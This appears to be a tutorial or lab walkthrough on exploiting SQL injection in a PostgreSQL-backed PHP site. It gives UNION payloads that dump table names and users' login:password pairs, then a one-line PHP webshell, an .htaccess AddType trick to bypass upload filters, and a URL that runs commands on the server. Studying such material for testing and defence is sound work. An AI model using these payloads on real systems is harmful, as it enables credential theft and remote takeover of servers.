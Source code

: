 
# Detection And Exploitation of SQL Injection
<hr>

This is the error message you get which tells you it is vulnerable to sqli
```vb
Warning: pg_exec(): Query failed: ERROR: unterminated quoted string at or near "'" LINE 1: SELECT * FROM pictures where cat=2' ^ in /var/www/classes/picture.php on line 17 ERROR: unterminated quoted string at or near "'" LINE 1: SELECT * FROM pictures where cat=2' ^ 
```
-----------------------

# Exploitation of SQL injection
<hr>

To do this the union attack can be used. So, we can have a query like this
```sql
UNION SELECT 1,2,3--
```
-------------------------------------

# Exploiting SQL injection with UNION on Postgresql
<hr>

Like for MySQL, exploiting SQL injections using `UNION` follows the steps

```
Find the number of columns to perform the UNION
Find a column with the right type to get information echoed in the page
Retrieve information from the database meta-tables
Retrieve information from other tables/databases
```

There are 2 methods to get the number of columns present
```
using `UNION SELECT` and increase the number of columns
using `ORDER BY` statement
```

----------------------------------

# Retrieving Information
<hr>

Now that we know the number of columns, we can retrieve information from the database. 

Compared to MySQL, PostgreSQL requires one step to get the  `UNION` statement to work properly: the columns need to be of the same type between the two queries and the first query decided what type.

If we used the query
```sql
1 UNION SELECT 1,2,3,4
```
We can see the error message displayed
```sql
Warning: pg_exec(): Query failed: ERROR: UNION types character varying and integer cannot be matched
```

To avoid this error we can replace `1,2,3,4` with `null,null,null,null` . So to test for vulnerable columns we can do something like this
```sql
1 UNION SELECT 'test',null,null,null
```
We test this until we get the vulnerable  column. If we find the vulnerable columns we can run stuffs like `version()` and `current_user` and `current_database()`

To retrive tablename from postgresql
```sql
SELECT tablename FROM pg_tables
```
To retrieve columnname
```sql
SELECT column_name FROM information_schema.columns
```

Full query
```sql
1 UNION SELECT null,tablename,null,null FROM pg_tables
1 UNION SELECT null,column_name,null,null FROM information_schema.columns
```

If the `information_schema.columns` stores table names then to retrieve the information
```sql
1 UNION SELECT null,table_name,column_name,null,null FROM information_schema.columns
```
We can also concatenate the table_name and column_name using the `||` operator
```sql
1 UNION SELECT null,table_name||':'||column_name,null,null FROM information_schema.columns
```

Using this information one can go ahead to build a query to retrieve informtation from this table
```sql
1 UNION SELECT null,login||':'||password,null,null FROM users;
```
------------------------------

# Access to the Administration Pages  and Code Execution
<hr>

For this we can crack the password we got from the database so we can log in as the administrator user

<h4>Uploading a Webshell and Code Execution</h4>
Once we have access to the administration page, we can go ahead and look for a way to execute commands on the operating system

If there is an upload function,then we can go ahead to upload a php script

We can use a webshell as simple as this
```php
<?php system($_GET['cmd']); ?>
```
If the upload functionality doesn't allow `.php` extensions we can go on to try other stuffs. The goal is to look for ways to get remote code execution

-------------------------------

# Introduction to .htaccess
<hr>

`.htaccess` are used to perform per-directory modification of the Apache configuration. They can be extremely dangerous if you can upload one that get interpreted by the server.

The most common way to gain command execution is to add a handler for an arbitrary extention
```
AddType application/x-httpd-php .blah
```
This line will tell Apache to interpret file with the extension `.blah` using the php engine. Since `.blah` files are less likely to be filtered by the application

Once we have uploaded the `.htaccess` file with the content above. We can now rename our file `shell.php` to `shell.blah` and upload

With this we can get commands execution

----------------------------

# Getting commands Execution
<hr>

We can execute our script by doing this
```
http://example.com/admin/uploads/shell.blah?cmd=id
```

With this we get the remote code execution










